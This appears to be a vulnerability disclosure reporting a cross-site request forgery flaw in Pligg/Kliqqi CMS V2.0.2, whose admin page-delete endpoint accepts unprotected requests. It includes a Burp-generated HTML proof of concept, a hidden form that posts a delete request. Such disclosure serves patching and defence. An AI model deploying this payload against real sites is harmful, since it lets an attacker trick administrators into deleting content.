 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_page.php?link_id=1&mode=delete

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_page.php?link_id=1&mode=delete" method="POST">
      <input type="hidden" name="link_id" value="1" />
<input type="hidden" name="mode" value="delete" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

